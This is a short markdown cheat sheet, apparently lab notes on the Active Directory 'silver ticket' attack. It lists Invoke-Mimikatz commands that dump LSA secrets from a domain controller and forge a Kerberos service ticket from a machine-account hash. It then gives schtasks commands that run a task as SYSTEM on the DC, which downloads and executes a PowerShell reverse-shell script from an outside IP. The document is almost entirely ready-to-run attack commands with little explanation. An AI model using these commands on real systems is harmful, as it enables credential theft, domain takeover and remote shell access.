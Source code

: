# 2 Silver Ticket

## Silver Ticket

## Invoke-Mimikatz

### Execute mimikatz on DC as DA to get krbtgt hash

```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

### Using hash of the Domain Controller computer account, below command provides access to shares on the DC

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-268341927-4156871508-1792461683 /target:dcorp-dc.dollarcorp.moneycorp.local /service:CIFS /rc4:6f5b5acaf7433b3282ac22e21e62FF22 /user:Administrator /ptt"'
```

```ad-note
Similar command can be used for any other service on a machine.
Which services? HOST, RPCSS, WSMAN and many more.
```

### Schedule and execute a task

```powershell
schtasks /create /S dcorp-dc.dollarcorp.moneycorp.local /SC Weekly /RU "NT Authority\SYSTEM" /TN "STCheck" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://192.168.100.1:8080/Invoke-PowerShellTcp.psi''')'"

schtasks /Run /S dcorp-dc.dollarcorp.moneycorp.local /TN "STCheck"
```
